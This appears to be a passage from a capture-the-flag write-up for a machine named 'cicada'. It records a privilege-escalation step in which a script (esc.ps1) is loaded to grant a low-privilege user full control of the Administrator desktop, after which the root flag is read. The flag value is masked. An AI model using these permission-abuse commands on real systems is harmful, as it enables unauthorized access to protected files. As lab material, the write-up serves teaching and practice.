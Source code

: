     <figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

* .  ./esc.ps1
* Acl-FullControl -user cicada\emily.oscars -path C:\users\administrator\desktop

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

* now we can access admin folders...
  * cd C:\Users\Administrator\Desktop
  * dir
  * type root.txt
    * \***ROOT\_FLAG**\*
